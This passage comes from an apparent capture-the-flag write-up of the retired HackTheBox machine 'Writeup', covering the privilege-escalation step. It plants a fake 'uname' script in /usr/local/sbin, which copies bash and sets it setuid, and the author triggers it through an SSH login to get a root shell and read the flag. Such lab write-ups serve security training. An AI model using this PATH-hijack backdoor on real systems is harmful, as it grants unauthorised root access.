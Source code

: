 So, let us create a malicious binary to get code execution as root when we log in.

## Content of uname
```console
#!/bin/bash

cp /bin/bash /tmp/bash
chmod 4777 /tmp/bash
```
I copied it to **/usr/local/sbin**.

## Logging out and logging in with SSH for the motd to run
```console
reddevil@ubuntu:~/Documents/htb/retired/writeup$ ssh jkr@writeup.htb
jkr@writeup.htb's password: 

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul  4 12:56:11 2021 from 10.10.14.22
jkr@writeup:~$ 
```
## Checking /tmp/bash
![imge](/assets/images/htb-boxes/writeup/Pasted image 20210704225151.png)
It exists and has setuid bit set on it.

## Getting a root shell
```console
jkr@writeup:/usr/local$ /tmp/bash -p
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

## Reading root.txt
```console
bash-4.4# cat /root/root.txt
eeba4*************198d7226
```
